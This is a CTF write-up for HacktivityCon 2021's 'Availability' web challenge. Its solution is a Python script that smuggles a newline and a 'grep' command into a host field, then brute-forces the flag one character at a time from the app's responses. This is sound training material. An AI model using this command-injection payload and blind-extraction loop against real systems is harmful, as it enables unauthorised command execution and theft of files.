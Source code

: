 ```yaml
---
name: Availability (2021)
event: HacktivityCon CTF 2021
category: Web
description: Writeup for Availability (Web) - HacktivityCon CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Availability

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/niPj8jYahV0/0.jpg)](https://youtu.be/niPj8jYahV0?t=5074s "HacktivityCon 2021: Availability")

## Challenge Description

> My schol was trying to teach people about the CIA triad so they made all these dumb example applications... as if they know anything about information security.
>
> They said they fixed the bug from the last app, but they also said they knew they went overboard with the filtered characters, so they loosened things up a bit. Can you hack it?

## Solution

{% code overflow="wrap" %}
```py
import requests
import string

flag = "flag."
url = "http://challenge.ctf.games:30669/"

# Each time a successful login is seen, restart loop
restart = True

while restart:
    restart = False
    # Loop through chars
    for i in string.ascii_lowercase + string.digits:
        payload = flag + i
        post_data = {'host': '127.0.0.1\x0Agrep ' + payload + ' flag.txt'}
        r = requests.post(url, data=post_data)
        # Correct char results in "successful password"
        if 'Success' in r.text:
            print(payload.replace('.', '{'))
            restart = True
            flag = payload
            # Exit if we have flag{32-hex
            if len(flag) == 37:
                print('\nFlag: ' + flag.replace('.', '{') + '}')
                exit(0)
            break
```
{% endcode %}
